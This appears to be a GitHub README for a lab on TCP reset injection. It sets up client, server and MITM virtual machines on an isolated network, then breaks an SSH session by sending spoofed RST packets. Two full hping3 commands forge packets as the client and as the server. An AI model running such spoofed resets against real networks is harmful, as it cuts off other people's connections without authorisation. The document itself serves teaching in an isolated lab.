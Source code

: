 # Breaking-TCP-Connection
# Topic-Fabricating TCP Packets and Retransmitting it on Live Network

# =>Initial Requirement-
1-Install Oracle Virtual Box
2-Create account on Redhat
3-Download rhel-baseos-9.0-x86_64-dvd
4-Create 3 virtual machines namely- RHEL9_client , RHEL9_server , RHEL9_MITM


# =>Establishing TCP connection-
# 1-Virtual Machine Network Setup
-Ensure that all machines are set to use Internal Network with isolated internet connections.
-All vm must be on same network
-Assign a Static IP Address Using nmtui command
-RHEL9_client 
   ->IP:192.168.2.2/24
   ->Gateway:192.168.2.1
-RHEL9_server
   ->IP:192.168.2.3/24
   ->Gateway:192.168.2.1
-RHEL9_MITM
   ->IP:192.168.2.4/24
   ->Gateway:192.168.2.1
-Check IP address configuration using ip a command 

# 2-Run Wireshark on client.

# 3-Initiating SSH to establish tcp connection between client and server 
-Initiating ssh from client side 
-command used for ssh -->ssh server@192.168.2.3
Here, we have successfully establish TCP connection between client and server using ssh.

# =>Breaking TCP Connection from server side-
1-Determine the sequence number of the next expected packet from client->server when the connection is quiescent using wireshark tool.

2-Fabricate TCP packet using hping3 command (spoofing as client)--> sudo hping3 192.168.2.3 -p 22 -s 60130 -R -M 6523 -L 1234 -c 1 -a 192.168.2.2

3-Observe wireshark
 -Here, we have successfully break tcp connection on server side

# =>Breaking TCP Connection from client side-
1-Determine the sequence number of the next expected packet from server->client when the connection is quiescent using wireshark tool.

2-Fabricate TCP packet using hping3 command (spoofing as server)--> sudo hping3 192.168.2.2 -p 60130 -s 22 -R -M 1234 -L 6523 -c 1 -a 192.168.2.3

3-Observe wireshark
 -Here, we have successfully break tcp connection on client side.
